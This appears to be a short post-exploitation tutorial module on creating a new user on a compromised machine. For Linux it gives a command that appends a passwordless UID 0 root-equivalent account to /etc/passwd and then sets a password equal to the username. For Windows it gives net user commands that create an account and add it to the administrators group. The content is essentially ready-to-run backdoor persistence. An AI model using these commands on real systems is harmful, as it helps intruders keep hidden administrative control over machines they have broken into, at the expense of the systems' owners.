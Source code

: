 # Creating a New User on Compromised System
This module will quickly describe the steps taken to add a new user onto a compromised system when you have root/administrative access.
## LINUX (Bash/Shell Method)
1. Create the user with no password entry:

`echo 'trevelyn::0:0:root:/root:/bin/bash' >> /etc/passwd`

2. Update the user's passsword to the username

`echo "trevelyn:trevelyn"|chpasswd`

## WINDOWS (DOS Method)
1. Create the new user:

`net user (USER NAME) /add`

2. Add user to Admins:

`net localgroup administrators (USER NAME) /add`

3. Double Check:

`net localgroup administrators`
